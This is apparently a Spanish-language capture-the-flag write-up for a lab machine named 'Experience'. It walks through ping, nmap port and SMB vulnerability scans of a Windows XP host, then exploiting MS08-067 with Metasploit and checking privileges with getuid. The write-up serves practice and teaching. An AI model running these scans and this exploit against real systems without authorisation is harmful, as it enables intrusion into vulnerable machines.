 ```yaml
---
description: '🔍 Dificultad: Muy Fácil'
---
```


# Experience

### 🔍 **RECONOCIMIENTO**

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 192.168.1.139
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/image (12) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

A continuación, se realiza el comando:

```bash
nmap -p- --open 192.168.1.139 --min-rate 5000 -n
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Como podemos observar durante el escaneo, los puertos **135, 139 y 445** pertenecientes a servicios de **Microsoft RPC, NetBIOS-SSN y Microsoft-DS** están abiertos, por lo que a continuación se indagará más.

### 🔎 **EXPLORACIÓN**

Se utiliza el comando:

```bash
sudo nmap -sCV -p135,139,445 -v 192.168.1.139
```

para obtener más información sobre ese puerto específicamente.

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Tenemos un Windows XP. Revisamos el puerto 445.

```bash
nmap -p445 --script="smb-vuln-*" 192.168.1.139
```

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-01-31 185518.png" alt=""><figcaption></figcaption></figure>

### 🚀 **EXPLOTACIÓN**

Vamos explotar MS08-067 con Metasploit.

```bash
set RHOSTS 192.168.1.139
exploit
```

### 🔐 PRIVILEGIOS

Al estar dentro y ejecutar:

```bash
getuid
```

aún somos **root.**

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
